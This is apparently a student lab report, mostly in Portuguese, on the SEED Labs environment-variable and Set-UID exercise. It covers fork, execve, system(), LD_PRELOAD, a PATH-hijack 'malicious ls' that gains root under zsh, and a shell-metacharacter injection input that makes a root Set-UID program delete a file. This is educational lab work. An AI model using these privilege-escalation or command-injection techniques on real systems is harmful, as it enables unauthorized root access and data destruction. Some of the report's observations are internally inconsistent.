# SEED Labs - Environment Variable and Set-UID Program Lab

## Introduction

This report documents the practical work carried out for the SEED Labs "Environment Variable and Set-UID Program" exercise. The lab's goal is to make visible what most programmers only assume: environment variables are not trivial metadata — they are live inputs that can change program behaviour, and when combined with privilege mechanisms such as Set-UID they can become attack vectors.

Using the provided SEED Ubuntu environment, we exercised the basic commands and APIs that propagate and expose environment state (`fork()`, `execve()`, `system()`), explored how the dynamic loader responds to `LD_*` variables, and demonstrated common pitfalls in privileged programs (PATH-based command substitution, misuse of `system()`, and capability/file-descriptor leaking).

The experiments were performed on a SEED Ubuntu VM (Ubuntu 20.04) supplied with the lab materials. The structure of the report follows the lab tasks, with command-by-command logs, screen captures, and explanations of why each vulnerability works at the OS level.

## Setup

Comecei por criar uma pasta partilhada no SeedLabs, colocada no diretório `/media`. De seguida executei `printenv PWD` para visualizar as variáveis globais no diretório inicial, mas quando executei o mesmo comando na pasta `/media/Environment_Variable_and_SetUID/Labsetup` não obtive o mesmo resultado.

---

## Task 1 - Manipulating Environment Variables

**Objetivo:** Compreender como manipular variáveis de ambiente na shell.

### Key Observations:
- Environment variables can be dynamically modified in the shell session
- Any variables exported become accessible to processes started by the shell
- Unsetting a variable removes it immediately from the current shell environment


---

## Task 2 - Inheriting Environment Variables

**Objetivo:** Verificar se as variáveis de ambiente do processo pai são herdadas pelo processo filho após a chamada de `fork()`.

### Procedimento:

Compilei o `myprintenv.c` com:
```bash
gcc myprintenv.c
./a.out > file
```

Consegui então o retorno que havia tido quando fiz `printenv PWD` no diretório inicial.

Coloquei o `printenv()` do processo filho em comentário e descomentei o `printenv()` do processo pai. Pude reparar que os dois retornaram literalmente a mesma coisa quanto às variáveis de ambiente.



### Resultado:

As variáveis de ambiente incluíam:
```
XDG_VTNR=7
XDG_SESSION_ID=c1
SESSION=ubuntu
ANDROID_HOME=/home/seed/android/android-sdk-linux
TERM=xterm-256color
SHELL=/bin/bash
USER=seed
PATH=/home/seed/bin:/usr/local/sbin:/usr/local/bin:...
PWD=/media/sf_Environment_Variable_and_SetUID/labsetup
HOME=/home/seed
...
```

### Key Observations:
- The environment variables in the child process are the same as in the parent process
- This confirms that when a child process is created using `fork()`, it inherits all environment variables from the parent process
- The child process starts with a copy of the parent's environment




---

## Task 3 - Environment Variables and execve()

**Objetivo:** Analisar o que acontece com as variáveis de ambiente quando um novo programa é executado com `execve()`.



### Step 1

Executei o ficheiro `myenv.c`:
```bash
gcc myenv.c
./a.out > file
```

Obtive um ficheiro vazio.

### Step 2

Mudei a linha:
```c
execve("/usr/bin/env", argv, NULL);
```
para:
```c
execve("/usr/bin/env", argv, environ);
```

E executei os mesmos comandos.

### Step 3

Notei que obtive literalmente as mesmas variáveis globais do processo pai (não houve criação de processo filho, pai é usado apenas como referência).

### Conclusão:

O `execve()` substitui o programa atual sem criar um novo processo e apenas transmite as variáveis de ambiente se estas forem explicitamente passadas como argumento. Caso contrário, o novo programa é executado com um ambiente vazio.

### Key Observations:
- When `execve()` is called with the environment parameter set to `NULL`, the new program does not inherit any environment variables
- When `execve()` is called with `environ`, the new program inherits all environment variables
- Environment variable inheritance with `execve()` is explicitly controlled by the third argument; it's not automatic



---

## Task 4 - Environment Variables and system()

**Objetivo:** Analisar o que acontece com as variáveis de ambiente quando um novo processo é executado através da função `system()`.

```c
#include <stdio.h>
#include <stdlib.h>

int main()
{
    system("/usr/bin/env");
    return 0;
}
```

Ao executar:
```bash
gcc myenv.c -o myenvsys
./myenvsys > file
```

### Conclusão:

A função `system()` não troca o programa que está rodando; em vez disso, ela cria um processo filho para correr um novo terminal (`/bin/sh`). Como `system()` usa internamente `execl()`, que por sua vez chama `execve()` com o mesmo conjunto de variáveis do processo pai, o processo filho herda automaticamente todas as variáveis de ambiente.

### Key Observations:
- `system()` executes a shell (`/bin/sh`) first, which inherits all environment variables from the calling process
- The executed command (`/usr/bin/env`) has access to the same environment variables as the program that called `system()`
- `system()` implicitly propagates environment variables, making it different from `execve()` in terms of inheritance



---

## Task 5 - Environment Variable and Set-UID Programs

**Objetivo:** Analisar como as variáveis de ambiente são tratadas quando um programa Set-UID é executado.

### Step 1

```c
#include <stdio.h>
#include <stdlib.h>
extern char **environ;

int main()
{
    int i = 0;
    while (environ[i] != NULL) {
        printf("%s\n", environ[i]);
        i++;
    }
}
```

### Step 2

Compilação e configuração:
```bash
gcc foo.c -o foo
sudo chown root foo
sudo chmod 4755 foo
```

### Step 3

Definição de variáveis:
```bash
export PATH=/home/seed/bin:$PATH
export LD_LIBRARY_PATH=/home/seed/lib
export MY_VAR="banaNa"
./foo > file
```

### Resultado:

Foi possível ver que algumas variáveis definidas pelo usuário aparecem com os valores atualizados no file. No teste, vi variáveis como `MY_VAR`, `LD_LIBRARY_PATH`, e `PATH` aparecerem no programa Set-UID.

### Observação Importante:

Descobri que esse comportamento não é sempre padrão. Em muitas distribuições/configurações, variáveis potencialmente perigosas são filtradas por razões de segurança. O resultado pode variar conforme a versão da libc, flags do kernel (securebits), políticas do sudo, ou como o binário foi invocado.

### Key Observations:
- Only some variables like `SHELL`, `HOME`, `PWD`, `LOGNAME`, `LANG`, and `PATH` appear in the program output
- Sensitive variables like `LD_LIBRARY_PATH` may be ignored by default
- Variables that could modify program behavior are usually sanitized
- The operating system prevents Set-UID programs from blindly inheriting all environment variables to avoid privilege escalation risks


---

## Task 6 - The PATH Environment Variable and Set-UID Programs

**Objetivo:** Testar se um programa Set-UID que usa `system("ls")` pode ser forçado a executar um ficheiro malicioso controlado pelo utilizador.

### Código Vítima (`seis.c`):
```c
int main()
{
    system("ls");
    return 0;
}
```

### Código Malicioso (`bad_code.c`):
```c
int main() {
    printf("Muh ha ha ha ha!!\n");
    if (geteuid() == 0) printf("I have root privilege!\n");
    return 0;
}
```

### Procedimento:

1. Compilei o `seis.c` e transformei-o em Set-UID root
2. Compilei o código malicioso como `ls`:
```bash
gcc -o ls bad_code.c
export PATH=/home/seed:$PATH
./seis
```

### Resultado com dash:

```
[10/13/25]seed@VM:~/Documents$ ./seis
Muh ha ha ha ha!!
```

O binário malicioso foi executado, mas **não** apareceu a mensagem "I have root privilege!". Isto indica que o processo malicioso não correu com EUID = 0.



### Razões prováveis:
- O shell chamado por `system()` (dash) pode ter revogado o EUID como medida de segurança
- Alguns filesystems (ex: vboxsf) não respeitam o bit set-uid

### Resultado com zsh (lab-only):

Após apontar `/bin/sh` para `zsh` temporariamente, o comando `./atc6` produziu `whoami: root` — o código malicioso `~/ls` executou com privilégios root (escalação bem-sucedida).



### Key Observations:
- `sudo ls -l ./atc6` shows `-rwsr-xr-x` (setuid root); `which ls` -> `/home/seed/ls` (malicious file on PATH)
- Default `/bin/sh` (dash): shell dropped privileges, no escalation
- With zsh: malicious `~/ls` ran with root privileges (escalation succeeded)
- `system()` runs `/bin/sh -c ...`; the shell resolves commands via PATH
- If the shell preserves effective UID and PATH is attacker-controlled, a setuid program can run attacker code as root

### Recommendations:
- Avoid `system()` in privileged code
- Use `execve()` with absolute paths
- Sanitize or reset PATH and unset `LD_*`
- Avoid setuid binaries when possible
  


---

## Task 7 - The LD_PRELOAD Environment Variable and Set-UID Programs

**Objetivo:** Explorar como `LD_PRELOAD` afeta programas regulares e Set-UID.



### Resultados:

1. **Regular program, normal user:** `LD_PRELOAD` works; `mylib.so` overrides `sleep()`; Output: "I am not sleeping!"

2. **Set-UID root program, normal user:** `LD_PRELOAD` ignored by Linux for security; Privilege dropping prevents library injection; Output: nothing unusual, original `sleep()` runs

3. **Set-UID root program, root user with LD_PRELOAD set:** `LD_PRELOAD` works again; Root can preload the library; Output: "I am not sleeping!"

4. **Set-UID user1 program, different non-root user:** `LD_PRELOAD` ignored again; Non-owner cannot inject library into Set-UID binary; Output: normal behavior
   


### Conclusão:

`LD_PRELOAD` is ignored for Set-UID programs unless run by the file owner (or root) to prevent privilege escalation.




---

## Task 8 - Invoking External Programs Using system() versus execve()

**Objetivo:** Compreender os problemas de segurança do `system()` em programas Set-UID, especialmente a exploração via shell metacharacters.

### Código:
```c
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char *argv[])
{
    char *v[3];
    char *command;

    if(argc < 2) {
        printf("Please type a file name.\n");
        return 1;
    }

    v[0] = "/bin/cat"; v[1] = argv[1]; v[2] = NULL;
    
    command = malloc(strlen(v[0]) + strlen(v[1]) + 2);
    sprintf(command, "%s %s", v[0], v[1]);

    // Use only one of the followings.
    system(command);
    // execve(v[0], v, NULL);

    return 0;
}
```

### Procedimento:

Compilei o `catall.c`:
```bash
gcc catall.c -o catall
sudo chown root catall
sudo chmod 4755 catall
```



Criei um ficheiro de texto `B4na` com conteúdo de teste. Explorei a vulnerabilidade com:
```bash
./catall "B4na; /bin/rm -f B4na"
```

### Resultado:

Funcionou! O programa escreveu o conteúdo de `B4na` e depois deletou o ficheiro do diretório.


